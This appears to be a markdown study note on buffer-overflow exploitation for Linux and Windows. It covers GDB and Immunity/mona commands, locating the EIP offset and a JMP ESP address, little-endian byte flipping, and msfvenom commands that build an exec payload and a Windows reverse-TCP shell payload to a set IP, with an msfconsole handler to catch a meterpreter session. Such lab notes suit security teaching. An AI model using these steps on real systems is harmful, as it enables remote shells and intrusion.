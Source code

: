 # Buffer Overflow Common Terms
* Heap
* Stack
* Registers
* Instruction Pointer
* Stack Pointer
* Base Pointer
* Function
* Shellcode
# Buffer Overflow Defenses
* Non executable (NX) Stack
* Address Space Layout Randomization (ASLR)
* Data Execution Prevention (DEP)
* Stack Canaries
* Position Independent Excutable (PIE)
# GDB Uses
### Common Commands
```
disass <FUNCTION>     # Disassemble portion of the program
info <...>    # Supply info for specific stack areas
x/256c $<REGISTER>    # Read characters from specific register
break <address>    # Establish a break point
run <<<$(echo "asdfghjlklk")    # Goes into standard in of program. It makes it take an arguement before running the program
info functions    # Lists all the functions
pdisass main    # Lists the main function. (Can do this to any function)
info proc map    # Gets a map of the process
```
# Demo Linux
* Buffer Overflow generator - https://wiremask.eu/tools/buffer-overflow-pattern-generator/
  - Look for "EIP" It should have a specific value from the characters you overflowed it with, copy the hex value determine the overflow amount
* To see the size of the stack, do "info proc map" and note the line with [heap], the line below that has a start addr (this is the start of the stack). Note the end addr of the line that has [stack] in it.
* find /b command:
  - `0xff` is jmp
  - `0xe4` is ESP
* `\x90` is NOP
```
run <<<$(<./script>)0
# Find out the overflow value
# Exit
# Enter a fresh gdb session without peda
env - gdb ./func    # This allows you to do that ^
show env    # Lists variables
unset env <variable>    # This unsets a variable
info proc map    # Gets a map of the process
find /b 0xf7de1000, 0xffffe000, 0xff, 0xe4    # find /b <starting location of stack>, <ending location of the stack>, <jmp>, <esp>
# Take first 4 and make them little endian
```
### Flipping bytes from big to little endian
```
#0xf7de3b59 -> 0xf7 de 3b 59 -> "\x59\x3b\xde\xf7"
#0xf7f588ab -> 0xf7 f5 88 ab -> "\xab\x88\xf5\xf7"
#0xf7f645fb -> 0xf7 f6 45 fb -> "\xfb\x45\xf6\xf7"
#0xf7f6460f -> 0xf7 f6 46 0f -> "\x0f\x46\xf6\xf7"
```
### MSFVENOM Command
* We are tellig it do create a payload that executes msf
* Then we are telling it that its going to execute the whoami command
* Then then tell it to not use the NULL Byte
* Finally we tell it to format it to python
```
msfvenom -p /linux/x86/exec CMD=whoami -b '\x00' -f python    # Creates payload
msfvenom --list payloads    # Lists all the payloads

```
# Demo Windows
### The Setup
* Run strings.exe on the executable
* Look for vulnerable variables
* Go to [a link]https://wiremask.eu/tools/buffer-overflow-pattern-generator/ and generate the string that will narrow the buffer offset
* Make the python script <scripts.md>
* Make sure the program crashes and the EIP returns with the value you set
### Immunity Debugger
```
!mona modules    # This looks for vulnerable variables
!mona jmp -r esp -m "essfunc.dll"    # Looks through the variable for jmp and esp
```
### MSFVENOM COMMAND (lhost='LinOPS IP' lport='RHP')
```
msfvenom -p windows/shell/reverse_tcp lhost=10.50.30.231 lport=1234 -b "\x00" -f python
```
### MSFCONSOLE
```
msfconsole
use multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 0.0.0.0
set lport <PORT SET IN MSFVENOM>
run
```











